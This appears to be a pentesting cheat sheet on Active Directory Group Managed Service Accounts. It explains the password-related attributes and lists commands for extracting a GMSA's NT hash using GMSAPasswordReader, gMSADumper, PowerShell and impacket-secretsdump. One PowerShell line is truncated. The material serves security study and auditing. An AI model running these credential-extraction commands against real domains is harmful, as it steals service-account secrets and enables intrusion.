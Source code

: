 # Reading GMSA Password (Group Managed Service Accounts)

### User accounts created to be used as service accounts rarely have their password changed. Group Managed Service Accounts (GMSAs) provide a better approach (starting in the Windows 2012 timeframe). The password is managed by AD and automatically rotated every 30 days to a randomly generated password of 256 bytes.

# GMSA Attributes in the Active Directory

#### 1) msDS-GroupMSAMembership ( PrincipalsAllowedToRetrieveManagedPassword )

 - stores the security principals that can access the GMSA password.

#### 2) msds-ManagedPassword

 - This attribute contains a BLOB with password information for group-managed service accounts.

#### 3) msDS-ManagedPasswordId

 - This constructed attribute contains the key identifier for the current managed password data for a group MSA.

#### 4) msDS-ManagedPasswordInterval

 - This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.


# Extract NT hash from the Active Directory

#### 1) GMSAPasswordReader (C#) https://github.com/rvazarkar/GMSAPasswordReader

    GMSAPasswordReader.exe --accountname SVC_SERVICE_ACCOUNT

#### 2) gMSADumper (Python) https://github.com/micahvandeusen/gMSADumper

    python3 gMSADumper.py -u User -p Password1 -d domain.local

#### 3) Active Directory Powershell

    $gmsa = Get-ADServiceAccount -Identity 'SVC_SERVICE_ACCOUNT' -Properties 'msDS-
 
    $blob = $gmsa.'msDS-ManagedPassword'
 
    $mp = ConvertFrom-ADManagedPasswordBlob $blob
 
    $hash1 = ConvertTo-NTHash -Password $mp.SecureCurrentPassword

#### 4) gMSA_Permissions_Collection.ps1 based on Active Directory PowerShell module

#### 5) Impacket

    Impacket-secretsdump domain.local/USER1:Password@1@DC_IP | grep GMSA
